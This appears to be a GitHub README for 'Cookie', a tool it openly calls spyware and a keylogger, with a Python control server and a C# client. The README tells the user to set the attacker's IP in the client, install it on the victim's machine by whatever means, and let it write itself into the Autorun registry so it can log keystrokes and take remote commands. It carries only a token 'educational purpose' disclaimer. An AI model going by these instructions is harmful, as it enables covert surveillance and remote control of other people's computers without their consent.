 # __Cookie__:cookie:
![Version](https://img.shields.io/badge/Version-01.02-brightgreen)
![Author](https://img.shields.io/badge/Author-Caleb-blue)
![Language](https://img.shields.io/badge/Language-python-orange)
![Language](https://img.shields.io/badge/Language-Cs-orange)
![License](https://img.shields.io/badge/License-MIT-red)

## Description

Cookie is a Spyware created for educationl purpose only so use this only in a protected and authorized environment.

### Purpose

It's a spyware so... spy! It can send all sorts of commands to the pc victim, and it is also a __keylogger__ so it can read what the victim is typing on his keyboard.

---

### Instructions

- The Cookie Server is the python script, this is the script that you have to use for controlling the victim machine;

You can use it on your mobile phone (use QPython) or in your computers. You have to set only the IP, the victim has to be in your LAN or you have to use a forward port. The default port is [7373]

- The Cookie Client is the C# service; You have to change the IP and the default port to your ip:

```c#
cookie.Connect("127.0.0.1",7373);
```

You must install it on victim machine and in some way (there are a lot of ways) start it, then it writes it self in the Autorun registry.
Then it will search for Cookie Server.

---

Made by [Caleb Gucciardi](https://github.com/d0gs3c)
|
Edited by [Chiara Sabaini](https://www.github.com/chiarasabaini)
